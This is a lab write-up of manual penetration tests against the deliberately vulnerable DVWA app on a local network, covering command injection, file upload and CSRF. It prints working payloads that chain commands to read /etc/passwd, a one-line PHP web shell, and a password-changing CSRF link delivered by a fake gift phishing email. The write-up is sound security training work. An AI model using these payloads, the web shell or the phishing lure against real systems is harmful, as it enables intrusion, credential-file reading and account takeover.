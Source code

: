 # Manual Pentesting: DVWA Modules
## Objective
To validate the OWASP ZAP scan results and observe how the web app reacts. Continuation of part 1, which covered SQLi, XSS (reflected), and brute force.

___
## Command Injection 
**Expected behavior**: ping the input IP address (e.g. 127.0.0.1 to ping the Ubuntu server from Kali) and display its result.

![](screenshots/8_1.png)

**Payload:** `127.0.0.1; whoami
- Meaning: send ping to Ubuntu then command chain to reveal which system user the web server is executing as
- Result: www-data displayed on page after ping results

![](screenshots/8_2.png)

**Payload:** `127.0.0.1 && uname -a
- Meaning: send ping then reveal the victim's kernel and system architecture details if the ping succeeds
- Result: Linux server info

![](screenshots/8_3.png)

**Payload:** `127.0.0.1; cat /etc/passwd
- Meaning: send ping then display the contents of the `/etc/passwd` file
- Result: lists all user accounts on Ubuntu's system

![](screenshots/8_4.png)

___
## File Upload
### Steps
1. Created a malicious file named`shell.php`
	This file executes any system command passed through the URL via the `cmd` parameter
```php
   <?php system($_GET['cmd']); ?>
```

2. Uploaded file to DVWA's File Upload module

![](screenshots/8_5.png)

3. Executed commands in the browser by entering the urls:
	`http://192.168.56.20/DVWA/hackable/uploads/shell.php?cmd=whoami

	![](screenshots/8_6.png)
	
	`?cmd=uname -a
	
	![](screenshots/8_7.png)

	`?cmd=cat /etc/passwd
	
	![](screenshots/8_8.png)
### Result
All commands were executed and leaked information about the victim server, like in the command injection module.

___
## CSRF (cross site request forgery)
### Purpose
While the Ubuntu victim is logged into DVWA, trick them into changing the password of the admin account.

![](screenshots/8_9.png)
### Steps
#### 1. Inspect the module's page source and create malicious link.

![](screenshots/8_10.png)
The web app uses a GET method to change the password. 
- `action="#"` means it posts to the same page
- Input fields:
	- `password_new`
	- `password_conf`
	- `Change` (submit button name)

The following link can be used to change the password to `hacked: 
```
http://192.168.56.20/DVWA/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```
#### 2. Victim is logged into DVWA as `admin.

#### 3. Send phishing email to victim containing the malicious link.
I sent myself the following email and opened it on the Ubuntu VM. I clicked on the "Claim Your Gift" button, which opened the malicious link in a new tab.

![](screenshots/8_10.png)
![](screenshots/8_11.png)
#### Result
When I click Test Credentials and enter`admin`/`password`, the login fails. 

![](screenshots/8_12.png)

`admin`/`hacked` works, so the password was changed to `hacked` successfully.

![](screenshots/8_13.png)
